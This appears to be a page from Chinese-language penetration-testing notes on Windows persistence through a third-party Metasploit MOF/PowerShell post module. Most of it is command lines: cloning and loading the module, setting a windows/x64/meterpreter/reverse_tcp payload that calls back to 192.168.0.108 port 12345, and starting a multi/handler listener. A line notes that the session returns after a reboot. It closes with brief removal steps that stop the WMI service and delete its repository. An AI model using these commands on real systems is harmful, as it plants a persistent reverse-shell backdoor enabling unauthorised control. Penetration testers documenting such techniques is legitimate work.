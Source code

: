	>git clone https://github.com/khr0x40sh/metasploit-modules.git
	>mv metasploit-modules/persistence/mof_ps_persist.rb /usr/share/metasploit-framework/modules/post/windows/
	>reload_all
	>use post/windows/mof_ps_persist
	>set payload windows/x64/meterpreter/reverse_tcp
	>set lhost 192.168.0.108
	>set lport 12345
	>set session 1
	>run
![image](/assets/Pentest_Note/master/img/453.png)

	>use exploit/multi/handler
	>set payload windows/x64/meterpreter/reverse_tcp
	>set lhost 192.168.0.108
	>set lport 12345
	>set exitonsession false
![image](/assets/Pentest_Note/master/img/454.png)

	重启后还会上线
![image](/assets/Pentest_Note/master/img/455.png)

	清除后门，进入meterpreter，resource 生成的rc文件
	停止MOF
	>net stop winmgmt
	删除文件夹：C:\WINDOWS\system32\wbem\Repository\
	>net start winmgmt 